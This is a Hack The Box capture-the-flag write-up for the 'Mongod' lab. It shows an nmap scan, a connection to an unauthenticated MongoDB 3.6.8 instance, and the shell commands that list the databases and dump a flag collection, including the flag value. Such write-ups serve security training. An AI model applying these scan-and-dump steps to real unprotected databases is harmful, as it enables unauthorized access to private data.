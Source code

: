 ```toc
```
# HTB Notes - Mongod #

+ **Date**: 12-4-2022
+ **Author**: Noah Soqui
+ **Tags**: #MongoDB

## Intelligence Gathering ##

Scanning the target
+ `nmap -sV -p- 10.129.228.30`
+ Output:
``` Shell
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
27017/tcp open  mongodb MongoDB 3.6.8
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Misconfiguration and Vulnerability Analysis  ##

Can connect to the mongo database without credentials.

## Exploitation ##

Connect to mongo database
+ `mongo 10.129.228.30`

List and navigate to flag collection
+ `show dbs`
	+ See all the database 
``` Shell
> show dbs
admin                  0.000GB
config                 0.000GB
local                  0.000GB
sensitive_information  0.000GB
users                  0.000GB
```
+ An interesting database is `sensitive_information`, will navigate into that:
	+ `use sensitive_information`
+ Display all the collections in that database:
	+ `show collections`
``` Shell
> show collections
flag
```
+ Can now get the flag

## Post Exploitation ##

Display the flag collection and get the flag:
``` Shell
> db.flag.find().pretty();
{
        "_id" : ObjectId("630e3dbcb82540ebbd1748c5"),
        "flag" : "1b6e6fb359e7c40241b6d431427ba6ea"
}
```

## Reporting ##

### Executive Summary ###

MongoDB is a NoSQL server specifically document oriented. All data is stored in json documents in this implementation. The service will consist of databases, containing collections, which store documents, where the collection can be queried. In this case, there was no authentication required to connect to the database, so it was as simple as navigating to the flag.
